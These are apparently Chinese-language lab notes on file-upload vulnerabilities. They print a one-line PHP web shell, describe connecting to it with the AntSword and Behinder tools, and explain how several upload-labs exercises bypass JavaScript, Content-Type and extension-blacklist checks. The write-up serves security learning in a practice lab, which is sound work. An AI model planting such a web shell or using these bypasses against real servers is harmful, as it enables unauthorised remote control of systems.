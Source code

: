 ## 1.利用post型小马进行漏洞利用

### 编写post小马并上传

```php
<?php eval(@$_POST['cmd']); ?>
```

### 然后访问服务端的木马文件并使用post传参

![image-20221209143053896](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143053896.png)

## 2.利用蚁剑进行服务器权限控制

### 下载蚁剑[源代码](https://github.com/AntSwordProject/antSword)和[加载器](https://github.com/AntSwordProject/AntSword-Loader)安装并打开

![image-20221209143342919](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143342919.png)

### 使用蚁剑添加数据

![image-20221209143612266](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143612266.png)

> 连接密码即为![image-20221209143513183](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143513183.png)

### 成功连接

![image-20221209143704107](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143704107.png)

![image-20221209143730942](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209143730942.png)

## 3.利用冰蝎进行服务器权限控制

### 下载[冰蝎](https://github.com/rebeyond/Behinder)

![image-20221209144421098](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209144421098.png)

### 将webshell上传到服务器后添加数据即可连接

![image-20221209144506120](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209144506120.png)

## 4.完成upload-labs1,2,11,6,8

### Pass-01

#### 利用JavaScript检测后缀

![image-20221209150114197](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209150114197.png)

#### 上传时候禁用JavaScript即可绕过

![image-20221209150214619](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209150214619.png)

#### 成功访问

![image-20221209150540969](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209150540969.png)

### Pass-02

#### 分析代码可知对`Content-Type`添加判断

![image-20221209150818508](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209150818508.png)

#### 抓包修改`Content-Type`并上传

![image-20221209151048428](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209151048428.png)

#### 成功访问

![image-20221209151239894](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209151239894.png)

### Pass-06

#### 分析代码可知使用黑名单验证文件后缀，但没有统一大小写

![image-20221209185635303](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185635303.png)

#### 使用大写后缀名绕过

![image-20221209185743213](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185743213.png)

### Pass-07

#### 分析代码可知使用黑名单验证文件后缀，但没有去除空格

![image-20221209151422546](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209151422546.png)

#### 抓包添加空格绕过

![image-20221209185116841](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185116841.png)

### Pass-08

#### 分析代码可知使用黑名单验证文件后缀，但没有去除`.`

![image-20221209185829301](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185829301.png)

#### 添加`.`绕过

![image-20221209185918032](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185918032.png)

### Pass-11

#### 分析代码可知根据黑名单将非法后缀替换为空

![image-20221209185954087](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209185954087.png)

#### 修改双写绕过

![image-20221209190050897](http://bex-image.oss-cn-hangzhou.aliyuncs.com/img/image-20221209190050897.png)